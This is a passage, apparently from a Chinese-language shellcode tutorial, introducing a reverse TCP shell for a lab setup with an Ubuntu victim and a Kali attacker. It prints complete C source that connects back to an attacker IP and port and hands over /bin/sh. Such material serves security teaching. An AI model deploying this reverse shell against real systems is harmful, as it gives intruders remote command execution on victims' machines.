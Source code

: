 前面命令的输出显示在以下截图中：

![](img/00215.gif)

现在我们有了我们的第一个真正的 shellcode！

# 反向 TCP shell

在本节中，我们将创建另一个有用的 shellcode，即反向 TCP shell。反向 TCP shell 是绑定 TCP 的相反，因为受害者的机器再次建立与攻击者的连接。

首先，在 C 代码中让我们看一下它：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h> 

int main(void)
{
    int sockfd;
    int port = 1234;
    struct sockaddr_in mysockaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    mysockaddr.sin_family = AF_INET;
    mysockaddr.sin_port = htons(port);
    mysockaddr.sin_addr.s_addr = inet_addr("192.168.238.1");

    connect(sockfd, (struct sockaddr *) &mysockaddr,
    sizeof(mysockaddr));

    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

首先，我们将在我们的受害者机器之一（Ubuntu）上编译并执行它。我们将在攻击机器（Kali）上设置一个监听器，然后 shell 将从 Ubuntu 连接回 Kali，通过在代码中添加 Kali 的 IP。
